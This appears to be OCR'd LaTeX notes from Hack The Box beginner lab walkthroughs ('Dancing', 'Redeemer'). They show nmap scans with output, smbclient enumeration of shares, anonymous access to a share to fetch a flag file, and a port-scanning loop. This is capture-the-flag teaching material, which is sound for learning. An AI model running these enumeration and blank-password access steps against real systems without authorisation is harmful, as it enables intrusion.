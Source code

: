 \documentclass[a4paper,10pt]{article}
\begin{document}
What is the command used to download the file we found on the FTP server? \texttt{get}.
\begin{bash}
ftp> ls
ftp> get flag.txt
\end{bash}

\subsection{Dancing \faWindows}

What does the 3-letter acronym SMB stand for? Server Message Block.

What port does SMB use to operate at? Port 445 (or 139, NetBIOS).
\begin{bash}
nmap -sV -A -T4 10.129.71.114
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Host script results:
| smb2-time:
|   date: 2024-03-21T18:12:02
|_  start_date: N/A
|_clock-skew: 3h59m59s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
\end{bash}

What is the service name for port 445 that came up in our scan? \texttt{microsoft-ds}.

What is the 'flag' or 'switch' that we can use with the smbclient utility to 'list' the available shares on Dancing?
\begin{bash}
sudo pacman -S smbclient
smbclient -L 10.129.71.114
Password: (empty)
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN\$         Disk      Remote Admin
        C\$             Disk      Default share
        IPC\$           IPC       Remote IPC
        WorkShares      Disk
\end{bash}

What is the name of the share we are able to access in the end with a blank password? WorkShares.

\begin{bash}
smbclient -N //10.129.71.114/Workshares
smb: \> ls
smb: \> cd James.P
smb: \> get flag.txt
\end{bash}

\subsection{Redeemer \faLinux}

Which TCP port is open on the machine? HTB hints that the TCP open port has 4 digits and the last one is 9. Generate a list \texttt{ports9.txt} with these ports and
\begin{bash}
for port in $(cat ports9.txt) ; do
  nmap -p $port 10.129.70.15 >> scan.txt
done
grep -i "open" scan.txt
\end{bash}
\end{document}
